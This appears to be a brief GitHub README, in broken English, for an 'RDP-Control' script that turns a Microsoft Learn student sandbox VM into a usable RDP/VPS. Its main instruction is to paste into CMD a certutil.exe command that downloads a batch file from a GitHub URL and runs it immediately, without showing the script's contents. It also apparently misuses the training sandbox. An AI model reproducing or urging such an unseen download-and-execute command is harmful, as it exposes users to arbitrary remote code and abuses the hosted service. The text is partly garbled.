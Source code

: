 # RDP-Control

T34M 4N4MU5
CODE BY 4LT41R
CMD-SCRYPT-RDP

This Script for Full-Access Control Your RDP-VPS

# First
you must go to link https://docs.microsoft.com/en-us/learn/modules/extend-elements-finance-operations/4-exercise
and create account microsoft and create VM student
and Lun# ch VM
SecondJust You Nedd open CMD And Copy certutil.exe -urlcache -split -f https://raw.githubusercontent.com/mrX04/lab2rdp/master/lab6cfree.bat && lab6cfree.bat And Past on CMD And Click ENTER


